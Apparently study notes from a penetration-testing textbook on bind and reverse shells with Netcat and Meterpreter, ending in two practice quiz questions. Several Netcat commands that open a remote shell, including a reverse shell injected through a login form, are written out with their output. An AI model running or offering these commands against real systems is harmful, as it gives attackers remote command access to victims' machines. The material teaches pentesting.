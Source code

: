A _shell_ is a utility (software) that acts as an interface between a user and the operating system (the kernel and its services). For example, in Linux there are several shell environments, such as Bash, ksh, and tcsh. Traditionally, in Windows the shell is the command prompt (command-line interface), which is invoked by cmd.exe. Windows PowerShell is a newer Microsoft shell that combines the old CMD functionality with a new scripting/cmdlet instruction set with built-in system administration functionality. PowerShell cmdlets allow users and administrators to automate complicated tasks with reusable scripts.

**NOTE** Microsoft has released a full list of and documentation for all supported Windows commands; see [_https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands).

Let’s go over the differences between the bind and reverse shells. With a bind shell, an attacker opens a port or a listener on the compromised system and waits for a connection. This is done in order to connect to the victim from any system and execute commands and further manipulate the victim. Figure 8-1 illustrates a bind shell.

**_Figure 8-1_** _- A Bind Shell_

![[Pasted image 20240618085019.png]]

A reverse shell is a vulnerability in which an attacking system has a listener (port open), and the victim initiates a connection back to the attacking system. Figure 8-2 illustrates a reverse shell.

**_Figure 8-2_** _- A Reverse Shell_

![[Pasted image 20240618085053.png]]

Many tools allow you to create bind and reverse shells from a compromised host. Some of the most popular ones are the Meterpreter module in Metasploit and Netcat. Netcat is one of the best and most versatile tools for pen testers because it is lightweight and very portable. You can even see this spelled out in the first few paragraphs of the **netcat** man page, as shown in Example 8-1.

**_Example 8-1_** _-_ _The Netcat Tool_

![[Pasted image 20240618085139.png]]

Let’s look at Netcat in action. An attacker could use the **nc -lvp 1234 -e /bin/bash** command in the compromised system (192.168.78.6) to create a listener on port **1234** and execute (**-e**) the Bash shell (**/bin/bash**). This is demonstrated in Example 8-2. Netcat uses standard input (stdin), standard output (stdout), and standard error (stderr) to the IP socket.

**_Example 8-2_** _-_ _Creating a Bind Shell Using Netcat_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
```

**NOTE** In Windows systems, you can execute the cmd.exe command prompt utility with the **nc -lvp 1234 -e cmd.exe** Netcat command.

As shown in Example 8-3, on the attacking system (192.168.78.147), the **nc -nv 192.168.78.6 1234** command is used to connect to the victim. Once the attacker (192.168.78.147) connects to the victim (192.168.78.6), the **ls** command is invoked, and three files are shown in the attacker screen.

**_Example 8-3_** _-_ _Connecting to the Bind Shell by Using Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

When the attacker connects, the highlighted message in Example 8-4 is displayed in the victim’s system.

**_Example 8-4_** _-_ _An Attacker Connected to a Victim Using a Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

One of the challenges of using bind shells is that if the victim’s system is behind a firewall, the listening port might be blocked. However, if the victim’s system can initiate a connection to the attacking system on a given port, a reverse shell can be used to overcome this challenge.

Example 8-5 shows how to create a reverse shell using Netcat. In this case, in order to create a reverse shell, you can use the **nc -lvp 666** command in the attacking system to listen to a specific port (port 666 in this example).

**_Example 8-5_** _-_ _Creating a Listener in the Attacking System to Create a Reverse Shell Using Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 
```

Then on the compromised host (the victim), you can use the **nc 192.168.78.147 666 -e /bin/bash** command to connect to the attacking system, as demonstrated in Example 8-6.

**_Example 8-6_** _-_ _Connecting to the Attacking System (Reverse Shell) Using Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Once the victim system (192.168.78.6) is connected to the attacking system (192.168.78.147), you can start invoking commands, as shown in the highlighted lines in Example 8-7.

**_Example 8-7_** _-_ _Executing Commands in the Victim’s System via a Reverse Shell_

![[Pasted image 20240618085631.png]]

Table 8-2 lists several useful Netcat commands that could be used in a penetration testing engagement.

**_Table 8-2_** _-_ _Useful Netcat Commands_

![[Pasted image 20240618085705.png]]

**NOTE** Additional Netcat commands and references for post-exploitation tools can be obtained from [_https://github.com/The-Art-of-Hacking/art-of-hacking_](https://github.com/The-Art-of-Hacking/art-of-hacking).

The Meterpreter module of the Metasploit framework can also be used to create bind and reverse shells and to perform numerous other post-exploitation tasks. Table 8-3 includes some of the most common Meterpreter commands.

**_Table 8-3_** _-_ _Common Meterpreter Commands_

![[Pasted image 20240618085811.png]]

**TIP** Metasploit Unleashed is a free detailed Metasploit course released by Offensive Security. The course can be accessed at [_https://www.offensive-security.com/metasploit-unleashed_](https://www.offensive-security.com/metasploit-unleashed).

---

You have discovered a remote code execution vulnerability on what appears to be an unauthorized web server set up by a Pixel Paradise developer. You have successfully injected and executed the following code into the server login form: **nc 192.168.78.145 777 -e /bin/bash**. On your penetration testing VM at 192.168.78.145, you have entered the following: **nc -lvp 777**. What type of access have you established to the victim?

In this scenario, the attacking system creates a reverse shell by first using the **nc -lvp 777** command to listen to a specific port (port 777) on the attacking machine. Then on the compromised host (the victim), you inject and execute the **nc 192.168.78.145 777 -e /bin/bash** command to establish a connection with the attacking system. Once the victim system (192.168.78.4) is connected to the attacking system (192.168.78.145), commands can be executed in the bash shell of the victim by the attacker.

---

You are getting familiar with the Meterpreter module of Metasploit in order to create bind and reverse shells and perform other post-exploitation tasks on a compromised system that is on a pentesting client's network. Match the Meterpreter command to its function.

![[Pasted image 20240618092143.png]]

